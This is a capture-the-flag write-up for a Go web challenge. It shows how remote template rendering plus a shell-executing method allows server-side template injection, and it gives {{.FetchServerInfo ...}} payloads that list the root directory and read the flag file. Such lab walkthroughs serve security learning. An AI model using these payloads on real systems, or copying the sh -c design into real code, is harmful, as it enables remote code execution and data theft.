

# RenderQuest

_**Keywords:** Go, Server Side Template Injection (SSTI), Remote Code Execution (RCE), WebHook_



RenderQuest is a web challenge written in Go that allows remote template rendering.


Upon visiting the main page, we are redirected to <code>/render?page=index.tpl</code>, giving us control over the loaded page. Therefore, exploiting a **Path Traversal** vulnerability to read the flag seems plausible. However, attempts of this kind are thwarted by the <code>readFile(...)</code> function, which checks against unauthorized directory access using <code>isSubdirectory(...)</code>.

Upon further inspection of the source code, we find the <code>FetchServerInfo(...)</code> function that executes the command passed as a parameter.

```go
func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}
```

Additionally, the <code>getTpl(...)</code> function, as mentioned earlier, not only renders local files but also allows rendering remote templates.

```go
func getTpl(w http.ResponseWriter, r *http.Request) {
    if remote == "true" {
		tmplFile, err = readRemoteFile(page)

		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
	} else {
		tmplFile, err = readFile(TEMPLATE_DIR+"/"+page, "./")

		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
	}
	...
    tmpl, err := template.New("page").Parse(tmplFile)
    ...
	err = tmpl.Execute(w, reqData)
    ...
}
```

We test this functionality by exploiting [WebHook](https://webhook.site/). We create an endpoint that responds with a simple string.


We copy the endpoint URL and insert it into RenderQuest. Clicking the "Render now" button confirms that it indeed works.

This can be exploited to perform Server Side Template Injection (SSTI) in Go, as described [here](https://www.onsecurity.io/blog/go-ssti-method-research/), allowing us to invoke the <code>FetchServerInfo(...)</code> function with an arbitrary parameter and achieve RCE.

We change the endpoint response to <code>{{.FetchServerInfo "ls /"}}</code>, revealing the name of the file containing the flag.


Now, by appropriately modifying the response to <code>{{.FetchServerInfo "cat /flagb8441c02a2.txt"}}</code>, we successfully read the sought-after flag!

